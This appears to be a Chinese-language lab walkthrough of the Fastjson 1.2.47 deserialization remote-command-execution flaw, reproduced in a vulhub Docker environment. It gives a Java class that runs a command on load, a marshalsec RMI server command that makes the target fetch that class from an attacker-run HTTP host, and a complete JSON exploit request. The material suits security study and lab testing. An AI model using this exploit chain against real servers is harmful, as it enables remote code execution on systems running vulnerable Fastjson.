









[Fastjson 1.2.47 远程命令执行漏洞](https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce)
============================================================================================

共 3218 字阅读需 3.5 分钟

> Pre-Built Vulnerable Environments Based on Docker-Compose - vulhub/fastjson/1.2.47-rce at master · vulhub/vulhub

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

*   [https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955](https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955)
*   [https://www.freebuf.com/vuls/208339.html](https://www.freebuf.com/vuls/208339.html)

漏洞环境
----

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

漏洞复现
----

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

## 0x01 首先编译并上传命令执行代码，如`http://192.168.64.1:8000/TouchFile.class`：

TouchFile.java文件

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译：`javac TouchFile.java`，会生成`TouchFile.class`文件


开启http监听，存放`TouchFile.class`




## 0x02 然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

marshalsec下载地址：

https://github.com/mbechler/marshalsec

打包工具MVN下载地址：

http://maven.apache.org/download.cgi



mvn打包:`D:\ChromeDownload\apache-maven-3.9.7\bin\mvn clean package -DskipTests`，解释：**clean**：首先清理项目，删除上一次构建生成的所有文件和目录。**-DskipTests**：在这个过程中，跳过测试阶段，不运行任何单元测试或集成测试。（否则错误）



打包成功，打包后的文件路径:`"D:\ChromeDownload\marshalsec-master\target\marshalsec-0.0.3-SNAPSHOT-all.jar"`




最终开启监听命令

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.64.1:8000/#TouchFile" 9999
```




向靶场服务器发送Payload：

```
POST / HTTP/1.1
Host: 192.168.64.130:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1
Content-Type: application/json
Content-Length: 266

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.64.1:9999/TouchFile",
        "autoCommit":true
    }
}
```





marshalsec监听被请求




TouchFile.class文件被请求




可见，命令`touch /tmp/success`已成功执行：




更多利用方法请参考JNDI注入相关知识。

repository:87699760